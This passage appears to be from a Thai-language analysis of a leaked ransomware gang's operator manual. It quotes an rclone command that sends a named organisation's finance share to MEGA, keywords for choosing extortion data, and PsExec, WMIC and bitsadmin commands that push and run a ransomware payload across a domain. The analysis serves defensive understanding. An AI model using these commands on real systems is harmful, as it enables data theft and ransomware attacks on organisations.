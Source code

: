 ### 4.1.2 Uploading Data

เมื่อเป้าหมายในขั้นตอนแรกเสร็จสิ้น ผู้ปฏิบัติการสามารถเข้าถึงบัญชีที่มีสิทธิ์สูงสุดในระบบขององค์กรเป้าหมายรวมไปถึงมีข้อมูลเกี่ยวกับแหล่งข้อมูลหลักและแหล่งข้อมูลสำรองขององค์กร ขั้นตอนต่อไปที่ผู้ปฏิบัติการจะดำเนินการคือการนำข้อมูลดังกล่าวออกไปยังระบบภายนอกเพื่อสร้างเงื่อนไขแรกในการเรียกค่าไถ่ ขั้นตอนของการส่งออกข้อมูลประกอบไปด้วยขั้นตอนย่อยดังต่อไปนี้

1. เปิดบัญชีบริการ [MEGA](https://mega.io) โดยเลือกแพ็คเกจการใช้งานเป็น Pro I ที่จะได้รับพื้นที่ในการเก็บข้อมูลทั้งหมด 2 เทระไบต์ ให้นำข้อมูลการจ่ายเงินจากหัวหน้าทีมไประบุและเก็บใบเสร็จการชำระค่าบริการเพื่อส่งคืนให้กับหัวหน้าทีม คู่มือยังกำชับไม่ให้มีการใช้บัญชี MEGA เดียวกันในหลายเป้าหมายหรือข้ามทีมด้วย
2. สร้างไฟล์การตั้งค่าสำหรับโปรแกรม [rclone](https://rclone.org/) เพื่อให้สามารถอัปโหลดข้อมูลไปยังบริการ MEGA ได้
3. เริ่มทำการอัปโหลดโดยใช้โปรแกรม rclone ตัวอย่างคำสั่งที่ใช้ในการอัปโหลดตามตัวอย่างด้านล่าง (มีการแนะนำให้อ่านคู่มือของ rclone เพื่อเรียนรู้พารามิเตอร์อื่น ๆ ที่อาจใช้เพื่อประสิทธิภาพในการอัปโหลดไฟล์)

```
shell rclone.exe copy "\\WTFINANCE.washoetribe.net\E$\FINANCE" mega:1 -q --ignore-existing --auto-confirm --multi-thread-streams 1 --transfers 3 --bwlimit 5M
```

1. ในกรณีของการนำไฟล์ออกจากเซิร์ฟเวอร์แบบแยกเดี่ยว คู่มือมีการแนะนำให้ติดตั้งโปรแกรม MEGA Sync ของบริการ MEGA เพื่อทำการอัปโหลดข้อมูลเช่นเดียวกัน
2. สร้างชุดข้อมูลสำหรับการข่มขู่โดยเน้นไปที่การหาข้อมูลบัญชีหรือประวัติการทำธุรกรรมย้อนหลัง เน้นไปที่ข้อมูลที่มีคีย์เวิร์ด อาทิ cyber, policy, insurance, endorsement, supplementary, underwriting, terms, bank, 2020, 2021 และ Statement จากนั้นทำสำเนาข้อมูลเหล่านี้พร้อมรายการแยกออกมาจากข้อมูลที่มีอยู่ใน MEGA

### 4.1.3 Deploying Locker

ในส่วนสุดท้ายที่ปรากฎในชุดข้อมูล ผู้ปฏิบัติการจะได้รับคำสั่งให้เตรียมพร้อมเพื่อการติดตั้งและเริ่มการทำงานมัลแวร์เรียกค่าไถ่ ขั้นตอนในส่วนนี้จะเริ่มต้นโดยการใช้ระบบซึ่งทำหน้าที่เป็น domain controller เป็นจุดในการกระจายไฟล์โปรแกรมของมัลแวร์เรียกค่าไถ่ไปยังระบบที่อยู่ในโดเมนเดียวกัน ช่องทางของการแพร่กระจายไฟล์โปรแกรมนั้นเกิดขึ้นผ่านโปรโตคอล SMB และการใช้ฟีเจอร์ Background Intelligent Transfer Service (BITS) เข้ามาช่วย คู่มือระบุให้ทำการสร้างไฟล์สคริปต์เพื่อดำเนินการในขั้นตอนนี้โดยให้แยกตามลักษณะของโปรโตคอลหรือฟังก์ชันที่ใช้ ตามตัวอย่างด้านล่าง

```
// Copying ransomware payload across the entire domain
start PsExec.exe /accepteula @C:\share$\comps1.txt -u DOMAIN\ADMINISTRATOR -p PASSWORD cmd /c COPY "\\PRIMARY_DOMAIN_CONTROLLER\share$\fx166.exe" "C:\windows\temp\ "

// Executing ransomware payload across the entire domain
start PsExec.exe -d @C:\share$\comps1.txt -u DOMAIN\ADMINISTRATOR -p PASSWORD cmd /c c:\windows\temp\fx166.exe

// Copying and executing with WMI and Bitsadmin
start wmic /node:@C:\share$\comps1.txt /user:"DOMAIN \Administrator" /password:"PASSWORD" process call create "cmd.exe /c bitsadmin /transfer fx166 \\DOMAIN_CONTROLLER\share$\fx166.exe %APPDATA%\fx166.exe & %APPDATA%\fx166.exe "
```

นอกเหนือจากการกระจายและเอ็กซีคิวต์โปรแกรมของมัลแวร์เรียกค่าไถ่ คู่มือยังระบุถึงการปิดการทำงานของโปรแกรมป้องกันมัลแวร์ในระบบด้วย (น่าจะบอกก่อนที่จะปล่อย)
